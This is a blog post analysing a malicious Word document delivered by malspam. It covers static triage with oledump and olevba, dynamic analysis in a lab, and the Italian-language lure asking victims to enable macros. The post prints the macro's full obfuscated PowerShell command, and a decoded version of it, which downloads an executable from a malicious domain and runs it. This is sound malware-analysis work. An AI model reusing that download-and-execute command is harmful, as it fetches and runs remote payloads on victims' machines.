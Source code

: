 ```yaml
---
layout: post
title: "Analysis of a malicious Word document"
description: "Analysis of a malicious Word document"
date: 2018-02-05
tags: malware
show_social: true
comments: true
---
```


Analysis of a malicious Word document used to deliver malware via a malspam campaign.

<!--more-->

The sample I'm going to analyze is a Microsoft Word document distributed via malspam.

As we will see it acts as a _downloader_ that once executed reaches out to the Internet and downloads its second stage. Unfortunately at the time of this analysis the contacted domain was already dead. Nevertheless I found interesting to complete this analysis.

The sample is named `Richiesta.doc` and its SHA256 hash is `586b7dbe2a700e50a9dda9a9e12bd985e54dc5b1b7a77a61450d638358133d3f`.

It is reported as malicious by VirusTotal (and other online sandboxes), and it's worth noting that there are many different malicious samples of `Richiesta.doc` in th wild each one with a different hash.

I will start playing with the sample on my REMnux lab virtual machine.

Examining the file with the `file` utility confirms it is a Microsoft Word document:

```
remnux@remnux:~/ex$ file Richiesta.doc
Richiesta.doc: Composite Document File V2 Document, Little Endian, Os: Windows,
Version 6.1, Code page: 1251, Template: Normal.dotm, Last Saved By: admin,
Revision Number: 2, Name of Creating Application: Microsoft Office Word,
Create Time/Date: Mon Jan 29 21:20:00 2018, Last Saved Time/Date: Mon Jan 29 21:20:00 2018,
Number of Pages: 1, Number of Words: 0, Number of Characters: 1, Security: 0
```

Let's further examine it with the [Didier Stevens](https://blog.didierstevens.com/) `oledump` tool:

```
remnux@remnux:~/ex$ oledump.py Richiesta.doc
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7427 '1Table'
  5:     60355 'Data'
  6:       496 'Macros/PROJECT'
  7:       122 'Macros/PROJECTwm'
  8: M    8163 'Macros/VBA/ThisDocument'
  9: M   14893 'Macros/VBA/Wct7kKdi5'
 10:      7570 'Macros/VBA/_VBA_PROJECT'
 11:      1786 'Macros/VBA/__SRP_0'
 12:       198 'Macros/VBA/__SRP_1'
 13:       532 'Macros/VBA/__SRP_2'
 14:       156 'Macros/VBA/__SRP_3'
 15:       671 'Macros/VBA/dir'
 16: M    8038 'Macros/VBA/tVQSqmk'
 17: M   19011 'Macros/VBA/yBcakFpM'
 18:      4096 'WordDocument'
```

As expected, those three streams marked with an `M` mean that this Word document contains Macros. I can read the Macros after decompressing the VBA stream with `oledump.py -s 8 -v Richiesta.doc` (where `8` is the number of the stream I want to decompress). Unfortunately the code looks heavily obfuscated.

Let's make a run with the `olevba` tool (from the [oletools](http://decalage.info/python/oletools) package):

```
remnux@remnux:~/ex$ olevba Richiesta.doc
```

A couple of interesting keywords contained in the obfuscated code are:
* a function named `Document_Open`: that means that the Macro is run when the Word document is opened;
* a call to `VBA.Shell` : probably the Macro runs an executable file or a system command.

`olevba` does have an option to try deobfuscate the code, but it does not help much in this case.

Anyway I won't care about deobfuscating the code. Instead I will try to run the malware and observe what it does.

To perform basic dynamic analysis, I'm going to use two virtual machines: one is a Windows 8.1 VM, equipped with malware analysis tools, where I will detonate the malware; the other is the REMnux Lab VM which I will use to direct the network traffic to.

To monitor network activity:

* Set up [ApateDNS](https://www.fireeye.com/services/freeware/apatedns.html) on the Windows VM to intercept any DNS requests and have it reply with the IP address of the REMnux VM.
* Set up [INETsim](http://www.inetsim.org/) on the REMnux VM to simulate Internet services and Wireshark to sniff network traffic.
* I'm going to monitor network traffic with Wireshark on the Windows VM as well.

To monitor system activity on the Windows VM:

* Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) (or [Process Hacker](http://processhacker.sourceforge.net)).
* Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
* Run [Regshot](https://sourceforge.net/projects/regshot).

I'm letting those programs run and exclude normal activity from Process Monitor. Then, right before installing the malware, I'm taking the first shot with Regshot.

Let's now open the Word document!

Once opened, it shows a common social engineering trick to have the victim enable Macros; it says (in Italian): _This document is for an older version of Word. To visualize its content please click 'Enable' in the yellow bar above..._.

![word](/media/20180205/word.png)

(Btw, the yellow bar with the Enable button is not visible in my screenshot because I took the screenshot after having enabled the Macros.)

As Macros are activated, the malicious code starts performing its actions. It communicates with a remote server to download a file (its second stage) which is saved under a temporary directory and then executed.

The domain contacted is `wijdqwbntuqwebqweqwizxc[.]com` as apparent from the ApateDNS log:

![apatedns](/media/20180205/apatedns.png)

Wireshark shows us the full URL where the second stage is downloaded from:

`hxxp://wijdqwbntuqwebqweqwizxc[.]com/stata/index.php?rnd=59978`

![wireshark](/media/20180205/wireshark.png)

It's worth noting that the `User-Agent` string is `15.0`: we'll see shortly that this corresponds to the version of Microsoft Word.

Taking the second shot with RegShot and comparing the results we can easily see that a new file has been created:

```
C:\Users\REM\AppData\Local\Temp\19982.exe
```

In this case the malware could not reach out to the Internet but only to the REMnux VM where INETsim was running; indeed the downloaded file contains the fake HTTP response sent by INETsim.

We can further examine what happened on the system using Process Monitor: we see that the Macros executed a system command `cmd` which in turn called the `powershell` executable to connect to the remote server and download the second stage. In the screenshot below only the events having `Operation` equal to any of `Process Start`, `WriteFile` or `TCP Connect` are shown.

![commandline](/media/20180205/commandline.png)

The full command line (highlighted in the screenshot) is:

```
cmd /c set _a1=pow&& set _a2=ersh&& set _a3=ell&& call %_a1%%_a2%%_a3% $ULjzHtTrs = 'iRJKbn';$jmVo2G = new-object System.Net.WebClient;$DSTFdKxX1 = 'oth1DC';$LyXjIuhD = (New-Object -ComObject word.application).version;$SQYyU = 'xZeKFX';$jmVo2G.headers['user-agent'] = $LyXjIuhD;$NZVXzNr0 = 'ynMSJ';$LyXjIuhD.close();$mNRwMHq = 'b85KGdV67';$LyXjIuhD.quit;$qdsyJ = 'hXUwA7Vo';$JNcVeBxf = $env:temp + '\19982.exe';$KVRjd8Y = 'G9WjeFT';foreach($mBbRidWu in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')){try{$uV3RLeIz = 'pMP6bKdGA';$jmVo2G.DownloadFile($mBbRidWu.ToString(), $JNcVeBxf);$HfVyAwt = 'D1HxGK8T';Start-Process $JNcVeBxf;$Cv31ashE = 'RLpG0dl2';break;}catch{$LlX4G = 'qIpqLRP3';}$qSK6tDU = 'fMY4dFcJ';}
```

This is somewhat confusing to read... but not so much if we clean it up a little bit.

Here is a _manually-decoded_ version of the command line just to make it easier to read. I wrote it on different lines and replaced the original names of important variables with more meaningful names.

```
cmd /c
set _a1=pow&& set _a2=ersh&& set _a3=ell
&&
call %_a1%%_a2%%_a3%
$ULjzHtTrs = 'iRJKbn';
$connection = new-object System.Net.WebClient;
$DSTFdKxX1 = 'oth1DC';
$word = (New-Object -ComObject word.application).version;
$SQYyU = 'xZeKFX';
$connection.headers['user-agent'] = $word;
$NZVXzNr0 = 'ynMSJ';
$word.close();
$mNRwMHq = 'b85KGdV67';
$word.quit;
$qdsyJ = 'hXUwA7Vo';
$malware = C:\Users\REM\AppData\Local\Temp\19982.exe';
$KVRjd8Y = 'G9WjeFT';
foreach($url in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')) {
    try{
        $uV3RLeIz = 'pMP6bKdGA';
        $connection.DownloadFile($url.ToString(), $malware);
        $HfVyAwt = 'D1HxGK8T';
        Start-Process $malware;
        $Cv31ashE = 'RLpG0dl2';
        break;
    }
    catch{
        $LlX4G = 'qIpqLRP3';
    }
    $qSK6tDU = 'fMY4dFcJ';
}
```

The first line is a call to `cmd /c` to execute the command that follows. The second line sets three environment variables, which are then concatenated on line 5 into the string `powershell` which is the argument of the command `call`.

Following the lines down we see how a `WebClient` object is created (I renamed it to `$connection`); how the Microsoft Word version is read and assigned to the `user-agent` property of the `$connection` object; how the path where the second stage malware is to be saved to is set. The `foreach` loop is where the actual download happens. Note that the loop is executed only one time because of the `break` instruction and regardless of how many `$urls` are obtained from the `Split` operation. Indeed the `Split` and all those other random strings assignments spread over are just garbage to make the code more difficult to read and reverse.

I tried to download the second stage using [Malzilla](http://malzilla.sourceforge.net/) but unfortunately without success: at this time the domain is dead or already taken down.

![virustracker](/media/20180205/virustracker.png)

That's all!
